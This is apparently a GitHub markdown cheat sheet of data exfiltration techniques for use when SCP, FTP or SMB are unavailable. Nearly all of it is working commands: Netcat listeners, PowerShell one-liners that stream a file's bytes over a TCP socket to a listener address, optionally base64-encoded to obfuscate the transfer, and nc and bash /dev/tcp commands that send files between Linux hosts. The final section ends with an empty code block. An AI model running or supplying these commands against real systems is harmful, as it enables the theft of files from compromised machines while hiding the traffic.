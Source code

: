 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```
###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
base64 -w0 file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```
